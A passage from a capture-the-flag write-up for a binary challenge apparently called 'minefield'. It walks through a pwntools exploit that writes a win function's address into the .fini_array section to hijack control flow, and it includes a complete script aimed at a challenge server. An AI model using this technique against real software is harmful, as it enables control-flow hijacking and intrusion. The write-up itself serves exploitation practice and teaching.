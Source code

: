 - We get the address of the section **.fini_array**:

```python
fini_array_addr = binary.get_section_by_name('.fini_array').header.sh_addr
```

> We can also add the address manually by retrieving it via the command `info files` inside `gdb`. But doing it this way is less elegant than using `pwntools` directly ^^

- We can print these two addresses in hexadecimal::

```python
pwn.info("Win function '_' address: 0x%x" % win_fn)
pwn.info(".fini_array section address: 0x%x" % fini_array_addr)
```

- The binary waits for 3 inputs:

1. "Are you ready to plant the mine?" &rarr; "2" and then call the `mission()` function
2. "Insert type of mine:" &rarr; address where we will write to
3. "Insert location to plant:" &rarr; address we want to write

> Before interacting directly with the server on which the binary is being executed, it is better to test the exploit locally by creating a "flag.txt" file and check if we called the "` _`" function successfully.

- With the following exploit it is possible to recover the flag:

```python
import pwn

host = "138.68.147.232"
port = 30174

remote = True

binary_path = './minefield'
binary = pwn.ELF(binary_path)

if remote:
    r = pwn.remote(host,port)
else:
    r = pwn.process(binary_path)

win_fn = binary.symbols['_'] # nm minefield | grep "_"
fini_array_addr = binary.get_section_by_name('.fini_array').header.sh_addr # (gdb) info files

pwn.info("Win function '_' address: 0x%x" % win_fn)
pwn.info(".fini_array section address: 0x%x" % fini_array_addr)

r.sendlineafter(">", b"2")                                     
r.sendlineafter("Insert type of mine: ", str(fini_array_addr))
r.sendlineafter("Insert location to plant: ", str(win_fn))

r.interactive()
r.close()
```
